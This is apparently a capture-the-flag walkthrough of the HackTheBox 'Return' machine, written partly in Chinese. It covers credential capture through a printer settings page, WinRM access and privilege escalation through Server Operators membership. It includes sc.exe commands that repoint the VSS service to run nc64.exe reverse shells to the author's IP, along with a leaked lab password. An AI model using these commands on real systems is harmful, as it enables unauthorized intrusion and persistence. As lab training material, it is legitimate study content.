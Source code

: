 1,Enumeration
port scan (nmap)
80/tcp http
445/tcp smb
check the smb client:
	`crackmapexec smb 10.10.11.108 --shares`

crackmapexec shows that the hostname os PRINTER.return.local, and I need auth to get any additional information from SMB:

Directory Brute Force
`ffuf -u http://10.10.11.108/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt`

But there is still nothing useful

2,check the website pages
there are a settings page, let's try to find some passwords.

in namp feedback, there is a interesting thing LDAP
	`389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)`
in burpsuite, we get 
![](images/Pasted%20image%2020240722085909.png)
browsers will take POST request to one ip (The other three fields in the form are not even sent. If the page does anything with this input, the user can only change the host (or “ip”), and not the port, username, or password.)

so try to change it to our tun0 ip address and check it.
![](images/Pasted%20image%2020240722090150.png)
we get something really like password and we have known the username:
"svc-printer"
so we can get credits: 
	`svc-printer:1edFg43012!!`

Let's come back to the smb client and try to use this credit to login.
	`crackmapexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'`

![](images/Pasted%20image%2020240722090621.png)

Most interestingly, they also work for WinRM:

![](images/Pasted%20image%2020240722090827.png)

So use evil-winrm to connect it.
And we successfully get shell and take the user.txt.

3,Privilege Escalation
enumerate the interesting privileges and groups

![](images/Pasted%20image%2020240722091346.png)


![](images/Pasted%20image%2020240722091325.png)

There may be others of interest, but Server Operators jumps out immediately. This group can do a lot of things:
![](images/Pasted%20image%2020240722092912.png)

This user can modify, start, and stop services, so I’ll abuse this by having it run nc64.exe to give a reverse shell.

sc.exe 是 Windows 服务控制管理工具，它允许用户从命令行管理服务。sc.exe config 命令特别用于配置服务的属性，例如服务的可执行文件路径、启动类型等。

sc.exe config vss binPath= "C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.2 1234"：这行命令是试图重新配置 vss 服务，使其执行 nc.exe 来创建一个反向 shell，连接到 IP 地址 10.10.14.2 的 1234 端口。

选择利用 vss 服务（Volume Shadow Copy Service）来执行命令是因为 vss 服务通常默认存在于 Windows 系统中，并且可能处于启用状态。利用 vss 服务来执行命令的主要原因如下：

1.默认存在：vss 服务在大多数 Windows 系统中默认存在，并且可能已经处于启用状态，这使其成为一个潜在的目标。
2.高权限：作为一个系统服务，vss 通常以系统权限运行。这意味着如果能够成功修改其可执行文件路径并启动服务，攻击者可以获得高权限执行的能力。
3.隐蔽性：通过修改一个合法的系统服务，攻击者的行为可能更难被立即发现，尤其是在不受信任的网络环境中。

Privilege Escalation 步骤
1.确认权限：确保你有管理员权限，因为更改服务配置需要管理员权限。
2.打开命令提示符：以管理员身份运行命令提示符。
3.运行命令：执行以下命令来修改 vss 服务的可执行文件路径

	sc.exe config VSS binpath="C:\programdata\nc64.exe -e cmd 10.10.16.8 443"

	`sc.exe start VSS`

then we can get root shell.

There are better shell:
When the service fails to start in a service way (there are specific requirements for a service binary), then it kills the running process. If I have the service binary actually be cmd.exe, and have that start nc64.exe, then the nc64.exe will continue even after cmd.exe is killed:
当服务无法以服务方式启动时（对服务二进制文件有特定要求），它会终止正在运行的进程。如果我的服务二进制文件实际上是 cmd.exe ，并且启动 nc64.exe ，那么即使在 cmd.exe 被杀死后 nc64.exe 也会继续:

	`sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.16.8 443"`

	`sc.exe start VSS`
 The shell comes back and lives past the timeout:


